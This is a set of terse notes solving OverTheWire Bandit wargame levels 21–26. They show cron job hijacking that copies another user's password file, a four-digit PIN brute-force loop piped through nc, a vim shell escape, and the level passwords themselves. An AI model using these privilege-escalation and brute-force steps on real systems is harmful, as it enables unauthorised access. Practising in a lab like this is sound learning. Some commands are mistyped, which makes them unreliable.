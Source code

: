 # Level 21 -> 22
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Password for level 22: WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

# Level 22 -> 23
 ls  /etc/cron.d/
 cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
whoami is the user bandit23
$mytarget is a file named echo I am user $myname | md5sum | cut -d ' ' -f 1
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
Run “echo I am user $myname | md5sum | cut -d ' ' -f 1 “ with $myname = bandit23 to get the real file name 
 cat /tmp/8ca319486bfbbc3663ea0fbe81326349
Password for level 23: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

# Level 23 -> 24: 
Same steps as before to look into cronjob_bandit24
The cronjob script runs and then deletes scripts in foo
Make a temporary directory
In tmp/whatever make a script to be run as bandit24
Open nano with nano script24.sh
#!/bin/bash
Cat /etc/bandit_pass/bandit24 > /tmp/<tmpvals>/password
Touch password
Chmod 777 -R tmp/<tmpvals>/
Ls -la to check its all there
Then put script in foo with cp script.sh /var/spool/bandit24/foo
After a minute cat /var/spool/bandit24/foo/script.sh should return no file
 Cat password shows password

Password for level 24: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar



# Level 24 -> 25: 
for i in {0000..9999}; do echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"; done | nc localhost 30002 > res.txt
Grep -v res.txt “Wrong!”

Password for level 25: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

# Level 25 -> 26: 
Resize window 
ssh -i bandit26.sshkey bandit26@localhost -p 2220
Press v to enter vim visual
:shell
cat /etc/bandit_pass/bandit26
Password for level 26: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
